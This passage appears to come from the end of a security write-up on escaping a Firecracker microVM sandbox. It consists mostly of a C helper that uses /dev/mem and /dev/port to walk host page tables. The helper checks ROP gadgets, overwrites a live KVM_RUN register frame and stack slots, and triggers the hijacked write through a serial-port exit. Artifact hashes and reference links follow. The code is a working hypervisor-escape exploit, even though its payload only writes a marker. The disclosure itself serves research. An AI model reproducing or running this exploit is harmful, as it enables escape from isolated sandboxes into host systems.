    sigemptyset(&action.sa_mask);
    if (sigaction(SIGBUS, &action, NULL) != 0 ||
        sigaction(SIGSEGV, &action, NULL) != 0) {
        perror("sigaction");
        return 70;
    }
    memory_fd = open("/dev/mem", O_RDWR | O_SYNC | O_CLOEXEC);
    if (memory_fd < 0) {
        perror("open /dev/mem");
        return 70;
    }
    port_fd = open("/dev/port", O_WRONLY | O_CLOEXEC);
    if (port_fd < 0) {
        perror("open /dev/port");
        return 70;
    }

    ioctl_return_va = load_bias + IOCTL_RETURN_VADDR;
    write_va = load_bias + WRITE_VADDR;
    zero_eax_ret_va = load_bias + ZERO_EAX_RET_VADDR;
    if (!read_process_bytes(memory_fd, pgd_hpa, write_va, observed,
                            sizeof(write_prefix)) ||
        memcmp(observed, write_prefix, sizeof(write_prefix)) != 0) {
        fprintf(stderr, "write wrapper prefix mismatch\n");
        return 70;
    }
    if (!read_process_bytes(memory_fd, pgd_hpa, ioctl_return_va, observed,
                            sizeof(ioctl_continuation)) ||
        memcmp(observed, ioctl_continuation,
               sizeof(ioctl_continuation)) != 0) {
        fprintf(stderr, "ioctl continuation mismatch\n");
        return 70;
    }
    if (!read_process_bytes(memory_fd, pgd_hpa, zero_eax_ret_va, observed,
                            sizeof(zero_eax_ret)) ||
        memcmp(observed, zero_eax_ret, sizeof(zero_eax_ret)) != 0) {
        fprintf(stderr, "zero-eax return gadget mismatch\n");
        return 70;
    }

    ptregs_page = map_host_page(memory_fd, ptregs_page_hpa,
                                PROT_READ | PROT_WRITE);
    memcpy(regs, ptregs_page + ptregs_offset, sizeof(regs));
    live_regs = (volatile uint64_t *)(ptregs_page + ptregs_offset);
    if (regs[10] != SYSCALL_AX_IN_PROGRESS || regs[12] != 0 ||
        regs[13] != KVM_RUN_REQUEST || regs[14] < 3 || regs[14] > 4096 ||
        regs[15] != SYS_IOCTL || regs[16] != ioctl_return_va ||
        regs[17] != USER_CS || !(regs[18] & UINT64_C(2)) ||
        regs[19] < UINT64_C(0x1000) || regs[19] >= (UINT64_C(1) << 47) ||
        regs[20] != USER_SS) {
        fprintf(stderr, "live KVM_RUN pt_regs validation failed\n");
        return 70;
    }
    user_sp = regs[19];
    marker_va = user_sp + MARKER_STACK_OFFSET;
    rop_stack_va = user_sp - ROP_STACK_OFFSET;
    ioctl_return_slot_va = user_sp - sizeof(uint64_t);
    marker_hpa = walk_native(memory_fd, pgd_hpa, marker_va);
    rop_stack_hpa = walk_native(memory_fd, pgd_hpa, rop_stack_va);
    ioctl_return_slot_hpa = walk_native(memory_fd, pgd_hpa,
                                         ioctl_return_slot_va);
    if (marker_hpa == UINT64_MAX || rop_stack_hpa == UINT64_MAX ||
        ioctl_return_slot_hpa == UINT64_MAX ||
        (marker_hpa & ADDRESS_MASK_4K) !=
        (rop_stack_hpa & ADDRESS_MASK_4K) ||
        (marker_hpa & ADDRESS_MASK_4K) !=
        (ioctl_return_slot_hpa & ADDRESS_MASK_4K) ||
        (marker_hpa & (PAGE_SIZE_U64 - 1)) >
        PAGE_SIZE_U64 - MARKER_LENGTH ||
        (rop_stack_hpa & (PAGE_SIZE_U64 - 1)) >
        PAGE_SIZE_U64 - sizeof(uint64_t) ||
        (ioctl_return_slot_hpa & (PAGE_SIZE_U64 - 1)) >
        PAGE_SIZE_U64 - sizeof(uint64_t)) {
        fprintf(stderr, "private stack slot geometry rejected\n");
        return 70;
    }
    if (!read_process_bytes(memory_fd, pgd_hpa, user_sp + UINT64_C(0x58),
                            (uint8_t *)&caller_return,
                            sizeof(caller_return)) ||
        caller_return < load_bias + TEXT_FIRST_VADDR ||
        caller_return >= load_bias + TEXT_LAST_VADDR) {
        fprintf(stderr, "Firecracker caller return validation failed\n");
        return 70;
    }

    stack_page = map_host_page(memory_fd, marker_hpa & ADDRESS_MASK_4K,
                               PROT_READ | PROT_WRITE);
    memcpy(&original_marker,
           stack_page + (marker_hpa & (PAGE_SIZE_U64 - 1)),
           sizeof(original_marker));
    memcpy(&original_rop_first,
           stack_page + (rop_stack_hpa & (PAGE_SIZE_U64 - 1)),
           sizeof(original_rop_first));
    memcpy(&original_rop_second,
           stack_page + (ioctl_return_slot_hpa &
                         (PAGE_SIZE_U64 - 1)),
           sizeof(original_rop_second));
    memcpy(&marker_word, marker_bytes, sizeof(marker_word));
    if (original_marker == marker_word) {
        fprintf(stderr, "marker already present\n");
        return 70;
    }

    printf("{\"schema\":\"net08-v23-owned-private-stack-marker-v1\","
           "\"event\":\"marker_plan\",\"runId\":\"%s\","
           "\"hostPgdHpa\":\"0x%" PRIx64 "\","
           "\"ptRegsHpa\":\"0x%" PRIx64 "\","
           "\"markerHostVa\":\"0x%" PRIx64 "\","
           "\"markerHpa\":\"0x%" PRIx64 "\","
           "\"writeHostVa\":\"0x%" PRIx64 "\","
           "\"zeroEaxRetHostVa\":\"0x%" PRIx64 "\","
           "\"ioctlReturnHostVa\":\"0x%" PRIx64 "\","
           "\"mode\":\"%s\","
           "\"privateUserStackOnly\":true,"
           "\"sharedTextWriteAttempted\":false,"
           "\"shellAttempted\":false,\"hostCommandAttempted\":false}\n",
           run_id, pgd_hpa, ptregs_hpa, marker_va, marker_hpa,
           write_va, zero_eax_ret_va, ioctl_return_va, mode);
    fflush(stdout);

    if (strcmp(mode, "dry-run") == 0) {
        printf("{\"schema\":\"net08-v23-owned-private-stack-marker-v1\","
               "\"event\":\"marker_dry_run_complete\","
               "\"runId\":\"%s\",\"writeAttempted\":false,"
               "\"sharedTextWriteAttempted\":false,"
               "\"shellAttempted\":false,"
               "\"hostCommandAttempted\":false}\n", run_id);
        fflush(stdout);
        if (munmap(stack_page, PAGE_SIZE_U64) != 0 ||
            munmap(ptregs_page, PAGE_SIZE_U64) != 0) {
            perror("munmap dry-run pages");
            return 70;
        }
        close(port_fd);
        close(memory_fd);
        return 0;
    }

    memcpy(stack_page + (marker_hpa & (PAGE_SIZE_U64 - 1)),
           marker_bytes, MARKER_LENGTH);
    memcpy(stack_page + (rop_stack_hpa & (PAGE_SIZE_U64 - 1)),
           &zero_eax_ret_va, sizeof(zero_eax_ret_va));
    memcpy(stack_page + (ioctl_return_slot_hpa &
                         (PAGE_SIZE_U64 - 1)),
           &ioctl_return_va, sizeof(ioctl_return_va));
    __atomic_thread_fence(__ATOMIC_SEQ_CST);
    __atomic_store_n(&live_regs[14], UINT64_C(2), __ATOMIC_SEQ_CST);
    __atomic_store_n(&live_regs[13], marker_va, __ATOMIC_SEQ_CST);
    __atomic_store_n(&live_regs[12], MARKER_LENGTH, __ATOMIC_SEQ_CST);
    __atomic_store_n(&live_regs[19], rop_stack_va, __ATOMIC_SEQ_CST);
    __atomic_store_n(&live_regs[16], write_va, __ATOMIC_SEQ_CST);

    trigger_result = pwrite(port_fd, "!", 1, (off_t)SERIAL_PORT);
    if (trigger_result != 1) {
        perror("serial exit trigger");
        return 70;
    }

    memcpy(stack_page + (marker_hpa & (PAGE_SIZE_U64 - 1)),
           &original_marker, sizeof(original_marker));
    memcpy(stack_page + (rop_stack_hpa & (PAGE_SIZE_U64 - 1)),
           &original_rop_first, sizeof(original_rop_first));
    memcpy(stack_page + (ioctl_return_slot_hpa &
                         (PAGE_SIZE_U64 - 1)),
           &original_rop_second, sizeof(original_rop_second));
    __atomic_thread_fence(__ATOMIC_SEQ_CST);

    printf("{\"schema\":\"net08-v23-owned-private-stack-marker-v1\","
           "\"event\":\"marker_trigger_returned\","
           "\"runId\":\"%s\",\"triggerByteCount\":1,"
           "\"privateStackBytesRestored\":true,"
           "\"sharedTextWriteAttempted\":false,"
           "\"shellAttempted\":false,\"hostCommandAttempted\":false}\n",
           run_id);
    fflush(stdout);

    if (munmap(stack_page, PAGE_SIZE_U64) != 0 ||
        munmap(ptregs_page, PAGE_SIZE_U64) != 0) {
        perror("munmap marker pages");
        return 70;
    }
    close(port_fd);
    close(memory_fd);
    return 0;
}
```

The artifact hashes are:

```text
Firecracker stderr capture:
5b8c0c0b5d5acb9ddf96891c79db8004832fd084e5e2d77484075995396fabbf

Final helper ELF:
fabf71650b76f7bbc9908df9474ab3aa7ec503dcc6c168cf5cb7236f50318faa

Final helper source:
fb6b4215ebc2a1d7fe14e5488ea2ff88417b5b81b4a6db8c39b9113fa7ce703c
```

Verify the bundle against its manifest with:

```sh
shasum -a 256 -c SHA256SUMS
```

## Technical references

- [PwnEscape Part 1](https://pwn.ai/blog/pwnescape)

- [Vercel: Findings from the $1M Sandbox challenge](https://vercel.com/blog/findings-from-the-1-million-dollar-vercel-sandbox-challenge#the-kernel-zero-day)

- [KVM API: KVM_RUN](https://docs.kernel.org/virt/kvm/api.html#kvm-run)

- [Firecracker architecture and containment](https://github.com/firecracker-microvm/firecracker/blob/main/docs/design.md)

- [Firecracker jailer documentation](https://github.com/firecracker-microvm/firecracker/blob/main/docs/jailer.md)

- [Firecracker seccomp documentation](https://github.com/firecracker-microvm/firecracker/blob/main/docs/seccomp.md)
